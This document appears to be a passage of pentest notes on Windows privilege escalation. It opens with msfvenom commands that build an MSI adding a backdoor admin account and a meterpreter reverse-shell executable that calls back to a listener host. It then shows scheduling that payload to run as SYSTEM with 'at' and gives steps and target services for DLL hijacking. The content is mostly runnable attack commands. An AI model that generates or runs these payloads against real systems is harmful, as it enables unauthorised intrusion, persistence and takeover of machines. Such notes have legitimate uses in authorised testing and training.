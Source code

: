 Payload Generation:
```
msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=P4ssw0rd@ -o add_user.msi
```
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
```

## Task Scheduler
- On Windows 2000, XP, and 2003 machines, scheduled tasks run as SYSTEM privileges.
- Works only on  Windows 2000, XP, or 2003
- Must have local administrator

```
> net start "Task Scheduler"
> time
> at 06:42 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
```

## DLL Hijacking (DLL preloading attack or a binary planting attack)
- https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712(v=vs.85).aspx
- Search order: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx

```
When an application dynamically loads a dynamic-link library without specifying a fully qualified path name, Windows attempts to locate the DLL by searching a well-defined set of directories in a particular order, as described in Dynamic-Link Library Search Order.

The directory from which the application loaded.
The system directory.
The 16-bit system directory.
The Windows directory.
The current directory.
The directories that are listed in the PATH environment variable.
```

- Services running under SYSTEM does not search through user path environment.

Identify processes / services
- Use procman (https://technet.microsoft.com/en-us/sysinternals/processmonitor.aspx).
    - Filter `Result` = `NAME NOT FOUND` and `Path` ends with `dll`
- Look at the registry key `ServiceDll` of services (`Parameters`).

### Windows 7
```
IKE and AuthIP IPsec Keying Modules (IKEEXT) – wlbsctrl.dll
Windows Media Center Receiver Service (ehRecvr) – ehETW.dll
Windows Media Center Scheduler Service (ehSched) – ehETW.dll
```
